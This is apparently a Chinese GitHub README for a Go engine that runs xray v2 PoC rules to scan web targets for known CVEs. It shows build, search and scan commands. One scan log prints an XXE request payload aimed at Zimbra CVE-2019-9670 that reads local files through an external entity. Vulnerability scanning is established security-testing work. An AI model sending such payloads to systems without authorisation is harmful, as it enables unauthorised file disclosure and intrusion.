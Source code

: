 ## 简介
xray poc 发生了一次改版。导致之前的poc引擎不能使用。正好之前工作做过这方面的工作，重新写了一版xray poc v2版本的poc解析工具。

xray v2版格式：https://docs.xray.cool/#/guide/poc/v2

特此开源出来，希望能和研究这方面技术的师傅多交流。

## 使用
### 编译
```shell
go build -x -ldflags "-s -w" -o xray_poc
```
### 查看帮助
```shell
➜  xray-poc-scan-engine ./xray_poc                              
xray poc规则发生了一次变化,导致之前的poc扫描器不能使用，故重新写一版。
                        xray v2版本的poc规则:https://docs.xray.cool/#/guide/poc/v2

Usage:
  xray_poc [command]

Available Commands:
  completion  generate the autocompletion script for the specified shell
  help        Help about any command
  poc         xray_poc search poc查看模块
  scan        xray_poc scan poc扫描模块

Flags:
  -h, --help   help for xray_poc

Use "xray_poc [command] --help" for more information about a command.
```

### poc模块
#### 搜索某个poc。支持模糊匹配
如：./xray_poc poc --search "xxe"
```shell
➜  xray-poc-scan-engine ./xray_poc poc --search "xxe"
 #   Poc Name                                
--- -----------------------------------------
 0   poc-yaml-apache-ofbiz-cve-2018-8033-xxe 
 1   poc-yaml-solr-cve-2017-12629-xxe        
 2   poc-yaml-zimbra-cve-2019-9670-xxe 
```
搜索到所有关于xxe的poc

### scan模块
### 扫描指定目标，使用指定pocName
如：./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
```go
➜  xray-poc-scan-engine ./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
2022/02/18 - 15:19:48.501  ▶ [Debug] request:POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: h11ba1.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169

<!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "file:./" >]><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a"><Request><EMailAddress>test@test.com</EMailAddress><AcceptableResponseSchema>&xxe;</AcceptableResponseSchema></Request></Autodiscover>
2022/02/18 - 15:19:48.515  ▶ [Debug] res false response.body.bcontains(b"zmmailboxd.out") && response.body.bcontains(b"Requested response schema not available")
2022/02/18 - 15:19:48.515  ▶ [Debug] poc:poc-yaml-zimbra-cve-2019-9670-xxe rule url:http://h11ba1.com/Autodiscover/Autodiscover.xml expression execute failed
#   target-url          poc-name                            status
--- ------------------- ----------------------------------- --------
0   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe   false
```
### 扫描指定目标，不指定poc，默认使用所有poc
如：./xray_poc scan --u "http://h11ba1.com" 

### 批量扫描多个目标
如： ./xray_poc scan --f "test.txt" --poc "xxe"
```go
 #   target-url          poc-name                                  status 
--- ------------------- ----------------------------------------- --------
 0   http://h11ba1.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 1   http://h22ba2.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 2   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe         false  
 3   http://h22ba2.com   poc-yaml-zimbra-cve-2019-9670-xxe         false
```

## 扫描结果成功 `status` 为 `true`

## TODO
本项目两三天赶工出来，肯定存在很多bug。师傅们发现可以给我提issues。有空肯定及时更新。

待完善模块：
### [ ]增加proxy模块
### [ ]完善dns反连功能
### [ ]完善漏洞结果判断功能
### [ ]优化结果显示功能

## 参考项目
https://github.com/jjf012/gopoc

## 免责声明

本项目只用于学习交流目的。

由于传播、利用该工具（下简称本工具）提供的检测功能而造成的任何直接或者间接的后果及损失，均由使用者本人负责，开发者 不为此承担任何责任。
